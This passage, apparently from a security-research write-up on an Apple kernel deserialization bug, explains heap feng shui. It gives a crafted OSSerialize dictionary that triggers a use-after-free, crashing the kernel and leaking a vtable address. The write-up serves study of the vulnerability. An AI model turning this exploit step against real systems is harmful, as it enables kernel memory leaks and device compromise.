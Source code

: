 Visualized again:

![Heap Feng Shui](assets/img/heap3.svg)

(The dictionaries to achieve this are straightforward and make no use of any bugs so far.)

Now we're gonna parse a rather simple dictionary:

    uint32_t dict[5] =
    {
        kOSSerializeMagic,                                              // Magic
        kOSSerializeEndCollection | kOSSerializeDictionary | 2,         // Dictionary with 2 entries

        kOSSerializeString | 4,                                         // String that'll get freed
        *((uint32_t*)"str"),
        kOSSerializeEndCollection | kOSSerializeObject | 1,             // Call ->retain() on the freed string
    };

`kOSSerializeString` will cause an `OSString` to get allocated, hopefully in one of those lonely holes we've punched into the heap, and when it is freed again shortly after, we're left with `objsArray[1]` holding a pointer to that chunk of memory that is surrounded by allocated `OSString`s.  
`kOSSerializeObject` will then attempt to call `retain()` on that chunk of freed memory, thus unfolding the process explained above, ultimately causing a kernel panic and logging the vtable address in the panic log:
